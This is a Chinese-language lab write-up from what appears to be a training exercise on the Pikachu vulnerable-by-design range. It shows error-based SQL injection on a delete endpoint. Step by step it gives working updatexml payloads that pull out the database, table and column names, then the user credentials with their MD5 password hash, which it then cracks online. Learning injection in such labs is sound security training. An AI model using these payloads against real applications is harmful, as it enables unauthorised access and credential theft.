









【实验目的】

学习MySQL注入漏洞利用。

【实验要求】

通过SQL注入获取账号密码。（pikachu靶场-SQL-delete注入）

【实验步骤】

1.访问目标网站

2. 随意输入留言——提交——删除

尝试抓包，发现是get请求

3. 随便给一个id=1，发现会报错，给order by探测列数，发现都会报错，尝试使用报错注入 ，发现这个可以成功爆出数据库名

http://10.12.5.112/pikachu/vul/sqli/sqli_del.php?id=1 or updatexml(1,concat(0x7e,(select database()),0x7e),1)

4. 发现报错注入有用，然后爆表

http://10.12.5.112/pikachu/vul/sqli/sqli_del.php?id=1 or updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,31),0x7e),1)

5.然后爆列名

?id=1 or updatexml(1,concat(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_name='users'),30,31),0x7e),1)

6. 然后爆内容

?id=1 or updatexml(1,concat(0x7e,substr((select group_concat(concat(username,'----',password)) from users),1,31),0x7e),1)

截取的密码内容不完全，再获取剩余密码部分（第32-64字符）

1 or updatexml(1,concat(0x7e,

substr((select group_concat(concat(username,'----',password)) from users), 32, 32)

,0x7e),1)

整合在一起，最后得到md5密文为：e10adc3949ba59abbe56e057f20f883e

7.md5解密，https://cmd5.com/

